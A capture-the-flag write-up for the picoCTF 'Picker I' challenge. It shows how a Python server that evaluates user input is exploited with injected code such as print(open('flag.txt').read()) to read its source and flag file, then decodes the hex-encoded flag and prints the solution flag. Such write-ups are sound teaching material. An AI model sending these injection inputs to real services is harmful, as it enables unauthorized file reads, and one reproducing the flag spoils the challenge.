 ```yaml
---
title: "PicoCTF: Picker I"
summary: "Using the eval function? Not good."
date: 2024-09-04
tags: ["picoctf"]
categories: ["write-up", "reverse_engineering"]
draft: false
---
```

# Investigating the Server
When we connect, we are prompted to input `getRandomNumber`. That works, but what happens if we provide an invalid input?
```
Try entering "getRandomNumber" without the double quotes...
==> getRandomNumber
4

Try entering "getRandomNumber" without the double quotes...
==> 4
'int' object is not callable


```

Providing invalid input shows what looks like a Python error message. This suggests that user input might not be sanitized properly. Let's test if we can provide Python input directly:

```
Try entering "getRandomNumber" without the double quotes...
==> getRandomNumber(123123)
getRandomNumber() takes 0 positional arguments but 1 was given

```

It turns out we can execute Python code! This means that we can now explore the contents of the Python script running on the server.

So, let's try printing the contents of the file with this one liner:
```python3
print(open(__file__).read())
```

And, that outputs the contents of the entire Python script running on the server!

# Investigating the Python File

Parsing through the output, we see this function:
```python3
def win():
  # This line will not work locally unless you create your own 'flag.txt' in
  #   the same directory as this script
  flag = open('flag.txt', 'r').read()
  #flag = flag[:-1]
  flag = flag.strip()
  str_flag = ''
  for c in flag:
    str_flag += str(hex(ord(c))) + ' '
  print(str_flag)

```

Now, we know that `flag.txt` is being read from the Python script. So, we have two choices:
1. Open `flag.txt` using arbitrary Python code
2. Reverse the encryption provided in the `win()` function

## Opening flag.txt Directly
Remember how we read the contents of the servers Python script? Because we know where `flag.txt` is... we can just open the file path directly.

```python3
print(open("flag.txt").read())
```

This outputs the flag: `picoCTF{4_d14m0nd_1n_7h3_r0ugh_ce4b5d5b}`

## Reversing the Encryption

Opening the file directly is too easy! Let's have some fun.

After executing `win()` on the server, we get this returned to us:
```
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x63 0x65 0x34 0x62 0x35 0x64 0x35 0x62 0x7d
```

Remember that `win()` function we discovered in the Python file? It converted each character of the flag into the hex representation of the character's unicode value (`ord(c)`):

```python3
...
for c in flag:
    str_flag += str(hex(ord(c))) + ' '
```

We simply just need to reverse the operations provided in the above code snippet.

```python3
# list comprehensions are super, super nice to know.
# https://www.programiz.com/python-programming/list-comprehension

# hex string from win() output
starting_flag = "0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x63 0x65 0x34 0x62 0x35 0x64 0x35 0x62 0x7d"

# split the string into individual hex codes
split_flag = starting_flag.split(" ")

# convert each hex code back its original character
transformed_flag = "".join(chr(int(word, 16)) for word in split_flag)

print(transformed_flag) # picoCTF{4_d14m0nd_1n_7h3_r0ugh_ce4b5d5b}
```
